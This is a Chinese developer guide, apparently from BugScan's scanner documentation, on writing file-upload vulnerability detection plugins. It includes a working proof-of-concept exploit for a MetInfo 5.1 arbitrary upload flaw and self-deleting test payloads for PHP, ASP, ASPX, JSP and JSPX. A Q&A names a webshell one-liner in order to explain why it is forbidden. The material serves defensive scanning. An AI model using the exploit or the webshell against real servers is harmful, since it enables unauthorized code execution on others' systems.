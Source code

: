 # 文件上传类
---

文件上传类插件可以分两种方法进行上传:

* raw (**推荐**)

    直接发送 HTTP 原始报文，可直接从 BurpSuite 中复制该报文，使用 hackhttp 的 raw 发包形式来上传文件。

* post 

	通过构造 `enctype="multipart/form-data"` 形式的 form  表单来上传文件。
	> 由于 MIME 类型较多，在处理时比较麻烦，官方推荐使用 raw 形式上传文件。

    

**范例插件**

[MetInfo5.1 /feedback/uploadfile_save.php 任意文件上传](http://www.bugscan.net/source/plugin/2447/template/)

> 感谢插件作者: [wonderkun](http://www.bugscan.net/accounts/template/profile/#/1937)

```
#!/usr/bin/evn python
# -*-:coding:utf-8 -*-
# Author: wonderkun
# Name: MetInfo5.1 任意文件上传 getshell
# Refer: http://www.wooyun.org/bugs/wooyun-2015-0139168
# Data: 2015/12/15

import time

def assign(service,arg):
    if service == fingerprint.metinfo:
        return True, arg

def audit(arg):
    url = arg + "feedback/uploadfile_save.php?met_file_format=pphphp&met_file_maxsize=9999&lang=metinfo"

    raw = '''
POST /feedback/uploadfile_save.php?met_file_format=pphphp&met_file_maxsize=9999&lang=metinfo HTTP/1.1
Host: localhost
Content-Length: 423
Cache-Control: max-age=0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Origin: null
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/47.0.2526.73 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryE1toBNeESf6p0uXQ
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.8
Cookie: PHPSESSID=hfqa37uap92gdaoc2nsco6g0n1

------WebKitFormBoundaryE1toBNeESf6p0uXQ
Content-Disposition: form-data; name="fd_para[1][para]"

filea
------WebKitFormBoundaryE1toBNeESf6p0uXQ
Content-Disposition: form-data; name="fd_para[1][type]"

5
------WebKitFormBoundaryE1toBNeESf6p0uXQ
Content-Disposition: form-data; name="filea"; filename="test.php"
Content-Type: application/x-php

<?php echo md5(1);unlink(__FILE__);?>
------WebKitFormBoundaryE1toBNeESf6p0uXQ--
    '''
    # proxy=('127.0.0.1',8080)
    code1, head1, res1, finalurl1, log1 = hackhttp.http(url, raw=raw)

    # get upload file name
    name = int(time.time())
    for i in range(100, 10000):
        filename = name + i
        url = arg + 'upload/file/%s.php' % (str(filename))
        code2, head2, res2, finalurl2, log2 = hackhttp.http(url)
        if code2 == 200 and "c4ca4238a0b923820dcc509a6f75849b" in res2:
            # 只用传递触发漏洞的 log，验证上传成功的 log 不需要
            security_hole('file upload Vulnerable:' + arg + "feedback/uploadfile_save.php?met_file_format=pphphp&met_file_maxsize=9999&lang=metinfo", log=log1)
            break
if __name__ == '__main__':
    from dummy import *
    audit(assign(fingerprint.metinfo, "http://127.0.0.1/metinfo5.1/")[1])

```

### 文件上传类插件检测步骤

1. 上传指定文件到目标
2. 访问上传后的文件
3. 判断是不是 1 中上传的文件

### 文件上传类的插件原则

1. 一般情况下要求上传可执行的文件，例如：php, asp, aspx, jsp
2. 上传文件内容要求对目标不得造成任何形式的损害。
3. 上传后的文件，在访问一次之后应该自删除。
4. 文件名应该尽量随机，不要与正常文件名相同。

### 上传文件样例代码

BugScan 社区官方提供了以下几类语言的上传检测样本，供开发者参考，所有文件都会在访问一次之后自删除，如果无删除权限时，由于其只输出字符串，也不会造成太大危害。

* PHP

	```php
	<?php echo md5(233);unlink(__FILE__);?>
	```
	输出: e165421110ba03099a1c0393373c5b43

* ASP

	```
	<%
	Response.Write chr(101)&chr(49)&chr(54)&chr(53)&chr(52)&chr(50)&chr(49)&chr(49)&chr(49)&chr(48)&chr(98)&chr(97)&chr(48)&chr(51)&chr(48)&chr(57)&chr(57)&chr(97)&chr(49)&chr(99)&chr(48)&chr(51)&chr(57)&chr(51)&chr(51)&chr(55)&chr(51)&chr(99)&chr(53)&chr(98)&chr(52)&chr(51)
	CreateObject("Scripting.FileSystemObject").DeleteFile(server.mappath(Request.ServerVariables("SCRIPT_NAME")))
	%>
	```

	访问该文件后输出: e165421110ba03099a1c0393373c5b43

* ASPX

	```
	<%@Page Language="C#"%>
	<%
	Response.Write(System.Text.Encoding.GetEncoding(65001).GetString(System.Convert.FromBase64String("ZTE2NTQyMTExMGJhMDMwOTlhMWMwMzkzMzczYzViNDM=")));
	System.IO.File.Delete(Request.PhysicalPath);
	%>
	```
	
	访问该文件后输出：e165421110ba03099a1c0393373c5b43

* JSP

	```jsp
	<%
	out.println(new String(new sun.misc.BASE64Decoder().decodeBuffer("ZTE2NTQyMTExMGJhMDMwOTlhMWMwMzkzMzczYzViNDM=")));
	new java.io.File(application.getRealPath(request.getServletPath())).delete();
	%>
	```
	
	访问该文件后输出：e165421110ba03099a1c0393373c5b43

* JSPX

    ```
<?xml version="1.0" encoding="UTF-8"?>
<jsp:root xmlns="http://www.w3.org/1999/xhtml" version="2.0"  xmlns:jsp="http://java.sun.com/JSP/Page" xmlns:c="http://java.sun.com/jsp/jstl/core">  
<jsp:directive.page contentType="text/html;charset=UTF-8" language="java" />  
<jsp:scriptlet> 
out.println(new String(new sun.misc.BASE64Decoder().decodeBuffer("ZTE2NTQyMTExMGJhMDMwOTlhMWMwMzkzMzczYzViNDM=")));
  new java.io.File(application.getRealPath(request.getServletPath())).delete();
</jsp:scriptlet>
</jsp:root>
    ```

    访问该文件后输出：e165421110ba03099a1c0393373c5b43

### 文件上传 Q & A

> Q: 为什么不能上传 `eval($_POST[a]);`?

> A: 上传 webshell 会对目标造成危害，违反了无损扫描这一约定，并且上传内容中包含后门特征，容易被防护产品拦截。

---

> Q: 为什么不能上传 `phpinfo();`?

> A: `phpinfo();`看起来无害实际上却有着泄漏目标服务敏感信息的危害。如果在检测后忘记删除文件，会对其它攻击者提供便利。 

---

> Q: 为什么要自删除？
> 
> A: 自删除可保证在检测之后不会在目标系统中留下检测时产生的文件，对目标影响较小。如果上传的件名不是随机的，在下次上传时会出现写入不成功的情况。

---

> Q: 为什么文件名要随机？
> 
> A: 文件名随机在检测没有重命名处理的上传点时好处有：
> 
> 1. 如果文件名与现有的文件同名，写入会失败或者覆盖原文件。
> 2. 第一次检测上传成功，在修复漏洞后忘记删除该文件，下次检测时访问该文件会产生误报。



